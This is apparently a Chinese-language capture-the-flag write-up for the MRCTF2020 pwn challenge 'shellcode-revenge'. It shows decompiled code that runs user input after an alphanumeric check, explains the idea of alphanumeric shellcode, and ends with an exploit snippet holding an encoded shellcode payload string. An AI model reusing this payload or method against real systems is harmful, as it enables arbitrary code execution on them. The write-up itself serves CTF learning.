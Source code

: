 
## shellcode-revenge
- 题目描述：
    
> 你的麦基客似乎没用了
    
- 题目附件：[shellcode-revenge](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MrCTF2020/pwn/shellcode-revenge/shellcode-revenge)
- 考察点：aplha shellcode
- 难度：简单
- 初始分值：500
- 最终分值：448
- 完成人数：18

### 程序分析

> IDA没有识别出来`call rax`，所以直接F5会失败。用ghidra就没问题~

```c
undefined8 main(void){
  ssize_t sVar1;
  undefined buf [1032];
  int len;
  int i;
  
  write(1,"Show me your magic!\n",0x14);
  sVar1 = read(0,buf,0x400);
  len = (int)sVar1;
  if (0 < len) {
    i = 0;
    while (i < len) {
      if (((((char)buf[i] < 'a') || ('z' < (char)buf[i])) &&
          (((char)buf[i] < 'A' || ('Z' < (char)buf[i])))) &&
         (((char)buf[i] < '0' || ('Z' < (char)buf[i])))) {
        printf("I Can\'t Read This!");
        return 0;
      }
      i = i + 1;
    }
    (*(code *)buf)();
  }
  return 0;
}
```

对输入进行了限制，基本上只能使用可见字符做shellcode.

### 解题思路

直接用`alpha3`生成`shellcode`即可。

有关纯字符shellcode的介绍可以看我的这篇文章：[纯字符shellcode生成指南](http://taqini.space/2020/03/31/alpha-shellcode-gen/#x86-alpha%E7%BC%96%E7%A0%81)

### exp

```python
payload = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'
se(payload)
```

